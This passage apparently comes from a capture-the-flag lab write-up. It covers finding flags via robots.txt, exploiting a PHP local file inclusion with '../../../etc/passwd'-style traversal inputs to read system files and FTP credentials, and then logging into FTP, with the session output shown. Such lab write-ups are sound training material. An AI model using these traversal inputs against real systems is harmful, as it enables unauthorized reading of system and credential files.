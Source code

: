 `robots.txt` is usually a good place to look.
![A screenshot of the page showing robots.txt file](https://i.imgur.com/fPeuBjd.png)


Yes! We have our first flag!

Exploring more, we have the post structure ... sus. LFI?
![A page showing probable PHP LFI](https://i.imgur.com/P6M7dH9.png)

### 1.4. PHP LFI
Let's try some basic stuff. `../../../etc/hosts` works!

![/etc/hosts working. LFI present in the system.](https://i.imgur.com/TXKROye.png)

How about `../../../etc/passwd`
![/etc/password working. Showing a list of interesting users.](https://i.imgur.com/mDVT7Sp.png)

Interesting candidates:
- mat
- toby
- will

Just to check, I tried getting `flag_1.txt`. Worked. Then, I looked at the second file mentioned in the same `robots.txt`

![](https://i.imgur.com/5n8Xta1.png)
We get the creds for ftp!

### 1.5 FTP
Log in.
```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.157.202
Connected to 10.10.157.202.
220 (vsFTPd 3.0.3)
Name (10.10.157.202:kali): *******
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
dr-xr-xr-x    3 65534    65534        4096 Dec 03 01:58 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03 01:58 ..
drwxr-xr-x    2 1001     1001         4096 Dec 03 03:30 files
-rw-r--r--    1 0        0              21 Dec 03 01:58 flag_2.txt
226 Directory send OK.
ftp> get flag_2.txt
ftp> cd files
ftp> ls -la
drwxr-xr-x    2 1001     1001         4096 Dec 03 03:30 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03 01:58 ..
226 Directory send OK.
```

